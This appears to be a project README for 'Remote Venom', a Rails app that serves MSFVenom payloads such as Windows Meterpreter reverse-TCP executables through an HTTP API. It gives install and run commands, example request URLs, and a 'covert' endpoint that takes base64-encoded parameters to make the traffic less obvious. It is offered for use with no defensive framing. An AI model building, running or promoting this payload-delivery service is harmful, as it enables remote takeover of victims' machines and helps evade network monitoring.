 # Remote Venom
---
This is a simple Rails app acting as a remote delivery system for MSFVenom payloads. 

To install:
```
cd api 
bundle install
rake db:create
rake db:schema:load
```

To run:
```
cd api && rails s -b 0.0.0.0
```

Every MSFVenom option has been parameterized, so calls to the API look like this:
```
http://192.168.1.100:3000/api/payloads?payload=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&format=exe
```
You can also use the shorthand syntax:
```
http://192.168.1.100:3000/api/payloads?p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe
```
For less obvious traffic, you can send the parameters as base64 (using the covert endpoint):
```
http://192.168.1.100:3000/a?b=cD13aW5kb3dzL21ldGVycHJldGVyL3JldmVyc2VfdGNwJmxob3N0PUhPU1QmbHBvcnQ9UE9SVCZmPWV4ZQo=
# example encoded payload is 'p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe'
``
To list all payloads:
```
http://192.168.1.100:3000/api/payloads
```

Feel free to use and modify, or contribute directly to the project. Merge requests welcome!
